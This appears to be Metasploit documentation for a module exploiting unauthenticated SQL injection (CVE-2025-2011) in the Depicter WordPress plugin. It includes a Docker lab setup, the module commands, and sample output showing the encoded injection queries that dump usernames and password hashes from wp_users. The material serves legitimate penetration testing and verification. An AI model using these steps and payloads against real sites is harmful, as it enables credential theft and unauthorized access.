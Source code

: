 ## Vulnerable Application

The vulnerability affects the **Slider & Popup Builder by Depicter** plugin for WordPress,
versions **up to 3.6.1**, allowing **unauthenticated SQL injection** via the `s` parameter on `admin-ajax.php`.
WordPress itself must be installed.

### Pre-requisites

* **Docker** and **Docker Compose** installed.


## Setup Instructions

1. **Create a `docker-compose.yml`** with:

```yaml
version: '3.1'

   services:
     wordpress:
       image: wordpress:latest
       restart: always
       ports:
         - 5555:80
       environment:
         WORDPRESS_DB_HOST: db
         WORDPRESS_DB_USER: chocapikk
         WORDPRESS_DB_PASSWORD: dummy_password
         WORDPRESS_DB_NAME: exploit_market
       mem_limit: 512m
       volumes:
         - wordpress:/var/www/html

     db:
       image: mysql:5.7
       restart: always
       environment:
         MYSQL_DATABASE: exploit_market
         MYSQL_USER: chocapikk
         MYSQL_PASSWORD: dummy_password
         MYSQL_RANDOM_ROOT_PASSWORD: '1'
       volumes:
         - db:/var/lib/mysql

   volumes:
     wordpress:
     db:
```

2. **Start the environment**

```bash
docker-compose up -d
```

3. **Install Depicter plugin**

```bash
wget https://downloads.wordpress.org/plugin/depicter.3.6.1.zip
unzip depicter.3.6.1.zip
docker cp depicter wordpress:/var/www/html/wp-content/plugins/
```

4. **Activate Depicter**

* Browse to `http://localhost:5555/wp-admin`, log in as admin (create one if needed), and activate **Slider & Popup Builder by Depicter**.
* No additional setup is required.


## Verification Steps

1. **Launch Metasploit**

```bash
msfconsole
```

2. **Load the Depicter SQLi scanner**

```bash
use auxiliary/gather/wp_depicter_sqli_cve_2025_2011
set RHOSTS 127.0.0.1
set RPORT 5555
set TARGETURI /
```

3. **Run the module**

```bash
run
```

4. **Observe output**

The module should:

* Retrieve the database name
* Enumerate tables and infer the `wp_users` table
* Extract `user_login:user_pass` for the number of rows set by `COUNT`

## Options

* **TARGETURI** (`/`): base path to WordPress
* **COUNT** (`1`): number of user rows to retrieve

## Scenarios

```bash
msf auxiliary(gather/wp_depicter_sqli_cve_2025_2011) > exploit
[*] Running automatic check ("set AutoCheck false" to disable)
[*] {SQLi} Executing (select 'bEJ')
[*] {SQLi} Encoded to (select 0x62454a)
[+] The target is vulnerable.
[*] {SQLi} Executing (SELECT 15 FROM information_schema.tables WHERE table_name = 'wp_users')
[*] {SQLi} Encoded to (SELECT 15 FROM information_schema.tables WHERE table_name = 0x77705f7573657273)
[*] {WPSQLi} Retrieved default table prefix: 'wp_'
[*] {SQLi} Executing (select group_concat(DCdo) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) DCdo from wp_users limit 1) ofAGxxQl)
[*] {SQLi} Encoded to (select group_concat(DCdo) from (select cast(concat_ws(0x3b,ifnull(user_login,repeat(0xa,0)),ifnull(user_pass,repeat(0x2,0))) as binary) DCdo from wp_users limit 1) ofAGxxQl)
[!] No active DB -- Credential data will not be saved!
[+] {WPSQLi} Credential for user 'chocapikk' created successfully.
[*] {WPSQLi} Dumped user data:
wp_users
========

    user_login  user_pass
    ----------  ---------
    chocapikk   $wp$2y$10$rc5oXfNPG.bYSnbYvELKZeGgoQ9.QHcAXG8U/xunfXzsviMQkiPga

[+] Loot saved to: /home/chocapikk/.msf4/loot/20250521182202_default_127.0.0.1_wordpress.users_171366.txt
[*] {WPSQLi} Reporting host...
[*] {WPSQLi} Reporting service...
[*] {WPSQLi} Reporting vulnerability...
[+] {WPSQLi} Reporting completed successfully.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
